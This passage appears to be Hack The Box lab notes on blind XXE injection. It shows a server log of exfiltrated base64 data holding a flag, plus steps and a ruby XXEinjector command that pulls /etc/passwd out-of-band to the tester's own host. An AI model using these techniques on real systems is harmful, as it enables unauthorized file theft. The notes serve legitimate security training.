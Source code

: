 ``` TXT
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50464 Closing
[Mon Nov 11 22:04:06 2024] 10.129.155.229:50466 Accepted
[Mon Nov 11 22:04:06 2024] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```
#### Automated
- [XXEinjector](https://github.com/enjoiz/XXEinjector)
- Copy the HTTP request from Burp and write it to a file for the tool to use. 
- Don't include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
``` HTTP
POST /blind/submitDetails.php HTTP/1.1
[Headers_SNIP]....

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool
``` bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
* All exfiltrated files get stored in the Logs folder under the tool `cat Logs/10.129.201.94/etc/passwd.log`
